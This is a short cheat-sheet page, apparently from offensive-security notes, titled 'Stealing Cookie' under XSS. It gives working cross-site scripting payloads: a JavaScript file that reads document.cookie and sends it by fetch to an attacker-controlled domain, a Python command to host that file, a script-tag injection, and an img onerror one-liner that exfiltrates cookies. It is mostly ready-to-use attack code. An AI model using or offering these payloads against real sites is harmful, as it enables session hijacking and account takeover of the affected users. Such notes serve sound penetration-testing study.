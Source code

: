 ```yaml
---
title: Stealing Cookie
layout: default
parent: XSS
has_children: false
nav_order: 1
---
```


<h2>Hosting method:</h2>

1. First create a file name xss.js with the following content:
```
let cookie = document.cookie
let encodedCookie = encodeURIComponent(cookie)
fetch("http://domain/?cookie=" + encodedCookie)
```

2. Host the file using Python:
`python3 -m http.server 80`

3. Inject the payload:
`<script src="http://ownIP/xss.js"></script>`

<h2>One liner alternative:</h2>

1. Replace domain with domain you control:
`<img src="x" onerror="fetch('http://domain/cookie=?'+encodeURIComponent(document.cookie))">`

2. Note that can use either single quote or a backslash to escape the double quotes inside double quotes. Also if in URL need to encode the plus using %2b.

Possible payloads:
`<img src='http://192.168.45.X:9000/name'>`
